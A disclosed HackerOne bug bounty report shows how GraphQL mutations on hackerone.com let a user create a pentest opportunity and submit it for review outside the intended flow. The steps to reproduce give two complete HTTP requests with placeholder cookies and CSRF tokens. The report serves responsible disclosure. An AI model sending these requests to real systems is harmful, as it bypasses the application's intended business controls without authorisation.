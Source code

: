 # An attacker can submit a Pentest Opportunity and change the status of the opportunity from submitted to in_review or reviewed

## Report Details
- **Report ID**: 2040756
- **URL**: https://hackerone.com/reports/2040756
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-27T18:45:49.055Z
- **Disclosed**: 2024-01-04T11:06:17.483Z

## Reporter
- **Username**: marvelmaniac
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
#Summary:
I tried my best to look for any visible feature or functionality through which I can create a pentest opportunity in my demo organization but didn't find any. Also looking into hackerone pentests on the internet I only got html forms to send my details and someone from the support team reaches out to me. However through a graphql mutation - ` createPentestOpportunity` I was able to create pentest opportunities in my demo org(and assuming this is true for other customers also having non-demo orgs without going through the proper flow ) and as soon as it is sent for review a derived pentest is also created.

#Steps To Reproduce
1. Create a demo organization in hackerone.
2. Send this request using your cookies & csrf-token and the `organization_id`:
```
POST /graphql HTTP/1.1
Host: hackerone.com
Cookie: <COOKIES>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/bugs?subject=user&report_id=2036649&view=open&substates%5B%5D=new&substates%5B%5D=needs-more-info&substates%5B%5D=pending-program-review&substates%5B%5D=triaged&substates%5B%5D=pre-submission&substates%5B%5D=retesting&reported_to_team=&text_query=&program_states%5B%5D=2&program_states%5B%5D=3&program_states%5B%5D=4&program_states%5B%5D=5&sort_type=latest_activity&sort_direction=descending&limit=25&page=1
Content-Type: application/json
X-Csrf-Token: <CSRF-TOKEN>
X-Product-Area: other
X-Product-Feature: other
X-Datadog-Origin: rum
X-Datadog-Parent-Id: 7607766352867302438
X-Datadog-Sampling-Priority: 1
X-Datadog-Trace-Id: 5479493917599437707
Content-Length: 452
Origin: https://hackerone.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"query": "mutation {\r\n  createPentestOpportunity(\r\n    input: {\r\n      company_name: \"My Company\"\r\n      customer_email: \"marvelmaniac@wearehackerone.com\"\r\n      organization_id: <ORG-ID>\r\n      name: \"My Pentest\"\r\n    }\r\n  ) {\r\n    clientMutationId\r\n    pentest_opportunity {\r\n      id\r\n      token\r\n    }\r\n    errors {\r\n      edges{node{message}}\r\n      total_count\r\n    }\r\n    was_successful\r\n  }\r\n}\r\n"}
```
You can find the `organization_id` by searching for that field name in your burp history. It is the `_id` field's value -
{F2448919}
3. The pentest opportunity is successfully created. In the response you'll find the ID and the token of the opportunity.
4. Send this request to send your opportunity for review:
```
POST /graphql HTTP/1.1
Host: hackerone.com
Cookie: <COOKIES>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/opportunities/all
Content-Type: application/json
X-Csrf-Token: <CSRF-TOKEN>
X-Product-Area: other
Content-Type: application/json
X-Product-Feature: other
X-Datadog-Origin: rum
X-Datadog-Parent-Id: 7607766352867302438
X-Datadog-Sampling-Priority: 1
X-Datadog-Trace-Id: 5479493917599437707
Content-Length: 305
Origin: https://hackerone.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"query": "mutation {\r\n  reviewPentestOpportunity(\r\n    input: {\r\n       pentest_opportunity_id: \"<ID-FROM-STEP-3>\"  }) {\r\n    clientMutationId\r\n    errors {\r\n      total_count\r\n      edges{node{message}}\r\n    }\r\n    was_successful\r\n  }\r\n}\r\n"}
```
The opportunity is successfully sent for review.
5. Now come to your browser, open your demo organization's engagements. There you will find a pentest opportunity in pending review form(ignore the errors for now since it was create purely from burp and that too for testing, many arguments are skipped for convenience) 
6. Go to pentest tab under engagements, you'll also find a derived pentest there under review(currently I'm looking at what I can do with it from my end)

{F2448944}
{F2448945}

## Impact

Users/Customers can create pentest engagements without going through the proper flow and send it for review to the h1 pentest team.

## Attachments
- image.png
- image.png
- image.png
